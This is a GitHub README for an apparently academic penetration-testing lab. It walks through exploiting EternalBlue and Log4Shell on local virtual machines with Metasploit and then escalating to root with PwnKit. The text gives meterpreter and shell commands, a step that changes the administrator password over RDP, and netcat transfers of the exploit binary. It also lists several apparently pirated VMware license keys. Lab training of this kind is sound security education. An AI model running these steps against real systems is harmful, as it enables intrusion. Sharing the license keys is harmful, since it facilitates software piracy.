 # IntroMetasploit

BY : :flying_saucer: Cr4zyD14m0nd :milky_way:

## Summary:

Metasploit introduction.

Tasks to do:

1. Exploit an eternal blue vulnarability in windows.
2. Exploit a log4j vulnerability in Linux.

## Description

We will make an attack to two machines and escalate privilege.

- Parrot OS, is an operative system maded for pentesters by pentesters based on debian, it is open source.

- Scripts maded by Cr4zyD14m0nd, these scripts will automate some boring tasks like the instalation of some tools, this scipts are maded in bash.

- Metasploit framework is a very powerful tool which can be used by cybercriminals as well as ethical hackers to probe systematic vulnerabilities on networks and servers.

- EternalBlue exploits SMBv1 vulnerabilities to insert malicious data packets and spread malware over the network. The exploit makes use of the way Microsoft Windows handles, or rather mishandles, specially crafted packets from malicious attackers.

- The Log4j vulnerability allows malicious attackers to execute code remotely on any targeted computer. What is Log4j : Log4j an open source software, a logging library for Java, is widely used by businesses and web portals. Earlier this month, this open source software was in the news for its vulnerabilities.

## Steps To Reproduce:

1. Set up

    1. Download vmware or virtualbox [1]
    Keys for vmware Plater 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF
    2. Download Parrot iso or parrot for vms [2]
    3. Follow the links of how to install vmware [3]
    4. Follow the links of how to setup parrot in vmware [4]
    5. Verify that you are using Host only in your parrot machine [5]
    6. Donwload the linux and the windows machines and open it in virtualbox, if you do this in vmware you will get an error message. [6]
    7. Now put the Host Only adapter to the machines. [7]
    8. Turn on your parrot maching and login [8]
    9. Turn on the windows machine and the ubuntu machine [9]
    10. make a git clone from Cr4zyD14m0nd repository from this repository: https://github.com/Cr4zyD14m0nd/TareaSocialEngennering (git clone 'url') [10]

### Windows machine.

1. Windows Attack

    1. In the folder MetasploitIntro you have a script, before do anything you need to be a root user.

        `sudo su`
        `Enter your password`

    2. Now we need to give the permisions to the script.

        `chmod +x IntroMetasploit.sh`

    3. Now run the first script.

        `./IntroMetasploit.sh`

    4. Now we have the script running and all the requirements installed, the next step is navigate through the menu.

        First exploit the windows machine choosing the option 1, once finished the process you can exit and ctrl + c to run again the script and then chose the option 2 to exploit the linux machine.

    5. Enter the required options to the script.

    6. Once you have a meterpreter session you need enter te next commands.

        `getuid`
        `shell`
        `cd ..`
        `cd ..`
        `cd Users`
        `cd Administrator`
        `cd Documents`
        `type secret.txt.txt`
    
    7. Now open a new terminal and use the root user and follow the instructions.

        type in the new terminal `rdesktop 192.168.56.10`, Enter and type yes.
        Once you have a remote desktop go to the Start button click them and navigate to control panel, once you are in the control panel section, go to add or remove accounts, go to administrator and change the password.


    ### Attacking linux

    1. Run the script IntroMetasploit.sh and chose the option 2 and enter the required parameters.

        `./IntroMetasploit.sh`

    2. Now you are in the machine, the next step is get a root user for this we will use the Pwnkit exploit.

        You can download the pwnkit exploit or use it from the folder that you downloaded at the begining

    * https://github.com/ly4k/PwnKit

    3. Now you need to open another terminal in the folder were you have the pwnkit exploit.

    4. in your first terminal type:

        `nc -l -p 1337 > Pwnkit`

    5. In the second terminal type:

        `nc -w 3 192.168.56.20 1337 < Pwnkit`

    6. Now in the first terminal give it the execute permisions to Pwnkit.

        `chmod +x Pwnkit`
    
    7. And then excecute it.

        `./Pwnkit`

    8. Now you are root, to confirm it run the next command.

        `id`
    
    ## Supporting material:

    Download Parrot iso or parrot for vms [1]

    Download vmware or virtualbox [1]
    Keys for vmware Player 16.1.1
    ZF3R0-FHED2-M80TY-8QYGC-NPKYF
    YF390-0HF8P-M81RQ-2DXQE-M2UT6
    ZF71R-DMX85-08DQY-8YMNC-PPHV8
    AZ3E8-DCD8J-0842Z-N6NZE-XPKYF

    Follow the links of how to install vmware [1]
    Follow the links of how to setup parrot in vmware [2]

    [1] https://www.parrotsec.org

    [2] https://www.youtube.com/watch?v=9QXXyG0hKtI
    
    [3] https://www.youtube.com/watch?v=NoivU2LrUrI

    [4] If you dont have the log4j exploit you can download it from here:
    [4] https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/multi/http/log4shell_header_injection.rb

    [5] How to put your adapter in Host only.
    [5] https://www.youtube.com/watch?v=FlP0YUKPHGo
    
    [6] PwnKit
    [6] https://github.com/ly4k/PwnKit
    
    [7] Download machines
    [7] https://storage.googleapis.com/isos-iteso-esi-1/isos/WindowsServer2008.ova
    [7] https://storage.googleapis.com/isos-iteso-esi-1/isos/ubuntuWeb_test.ova
